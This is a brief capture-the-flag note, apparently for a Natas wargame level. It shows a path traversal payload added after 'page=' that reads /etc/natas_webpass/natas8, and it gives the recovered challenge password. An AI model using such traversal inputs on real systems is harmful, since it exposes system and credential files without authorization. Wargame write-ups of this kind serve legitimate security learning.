 source code hints to go to /etc/natas_webpass/natas8
in link after page=
add ../../../../etc/natas_webpass/natas8

password is DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
